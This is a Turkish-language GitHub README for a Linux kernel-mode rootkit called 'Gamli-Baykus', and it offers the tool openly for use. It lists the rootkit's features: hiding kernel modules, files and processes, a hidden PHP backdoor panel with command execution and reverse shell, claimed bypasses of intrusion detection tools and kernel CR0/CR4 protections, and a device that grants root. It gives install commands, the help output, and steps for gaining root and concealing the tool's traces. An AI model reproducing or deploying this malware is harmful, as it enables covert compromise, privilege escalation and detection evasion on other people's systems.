 # Gamli-Baykus



![Autro](autro.jpg)




**Kernel Mode Rootkit**

*Örnek Amaçlı Gliştirilmiş versiyondur, ilerleyen versiyonlarla daha farklı ve gelişmiş özellikler ile karşınızda olacak..*


**Test Edildiği Sistemler : Ubuntu 18.04 // CentOS 7.8.0**


### Özellikleri


**lsmod Üzerinde gözükmeyen LKM ler**

**Dosyalari gizleme**

**Klasörleri gizleme**

**Processleri gizleme**

**PHP arayuzu icin gizlenmis server portu**

**Farklı kullanıcıllardan root erişimi alabilmek için Bir device oluşturma.**

**HIDS Bypass (Agent Simth , Ossec , chrootkit , kstat , HiddenWall,lsrootkit)**

**Bypass Linux Kernel 3.15 x86 CR4 & CR0 pinning protections

**Gizli PHP Arayuz (Porta Kurulu)**


### PHP Arayuz ozellikleri :

**Dosya sisteminde gozukmeme**

**Panel Anasayfa Guard (IP LOGGER)**

**CMD Komut calistirma**

**Bind Port Reverse Shell**


### Helper

```

sudo gamlibaykus --[PARAMETRE] [OPSIYON]


Gamli Baykus Kernel Mode Rootkit v1.0
[http://modebit0.info]

--file [Gizlenecek Dosya]
--process [Gizlenecek Process ID]
--rootdevice [Device Keyi]
--phpbackdoor [Port Number]

===[Kisa Opsiyonlar]===

-f [Dosya ismi]
-p [Process id]
-r [Devicekey]
-b [port number]

```

### Kurulum :

```
git clone https://github.com/0x00fy/Gamli-Baykus.git

cd Gamli-Baykus

chmod 777 *

sudo ./install.sh


```

### Kullanım Klavuzu ve Hatırlatmalar

Herşeyden önce kurulum yapıldıktan sonra --file parametresini kullanarak Tüm LKM lerin ve yardımcı araçların bulunduğu /var/baba klasörünü gizlemeyi unutmayın 

Gizlemek : sudo gamlibaykus -f /var/baba


Farklı kullanıcılardan Root Yetkisi almak için bir device oluşturduğunuzda Root yetkisine ulaşmak için `echo "GİRDİĞİNİZ DEVİCE KEYİ" > /dev/ttyR0 `

 Komutunu çalıştırmanız yeterli olacaktır..
 

Php backdoor arayüzü kurmak için sudo gamlibaykus -b [PORT NUMARASI] şeklinde çalıştırıp Arayüzü kurduktan sonra Terminalinize output olarak düşen Process ID sini gizlemeyi unutmayınız !


### İYİ EĞLENCELER !!


